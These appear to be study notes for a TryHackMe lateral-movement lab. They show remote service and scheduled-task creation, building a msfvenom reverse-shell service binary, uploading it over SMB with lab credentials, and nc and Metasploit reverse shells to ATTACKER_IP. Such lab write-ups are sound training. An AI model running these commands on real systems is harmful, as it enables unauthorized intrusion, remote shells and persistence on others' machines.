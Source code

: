 # Lateral Movement and Pivoting
## Setup for tryhackme lab

<pre>
sudo nano /etc/resolv.conf
</pre>

edit it to:
<pre>
nameserver 'IP'
nameserver 8.8.8.8
</pre>

restart networking service
`sudo systemctl restart networking.service`

## Spawning Processes Remotely
This task will look at the available methods an attacker has to spawn a process remotely, allowing them to run commands on machines where they have valid credentials. Each of the techniques discussed uses slightly different ways to achieve the same purpose, and some of them might be a better fit for some specific scenarios.

### sc.exe

How to start service 
<pre>
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
</pre>
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

How to stop and delete service
<pre>
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
</pre>

### Creating Scheduled Tasks Remotely

<pre>
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "command/payload to execute" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 

</pre>

Deletion
<pre>schtasks /S TARGET /TN "THMtask1" /DELETE /F</pre>

### Let's go
We will ssh as user

Assume we have the administrator creds

<pre>User: ZA.TRYHACKME.COM\t1_leonard.summers

Password: EZpass4ever</pre>

Create rev shell 

<pre>
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe

smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
</pre>

Setup listener
<pre>
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
</pre>

Setup another listener for nc

<pre>
nc -lvp 4443
</pre>

#### Victims machine

Do the reverse shell using t1_leonard.summer's access token
<pre>
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
</pre>

And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary
<pre>
sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto

sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
</pre>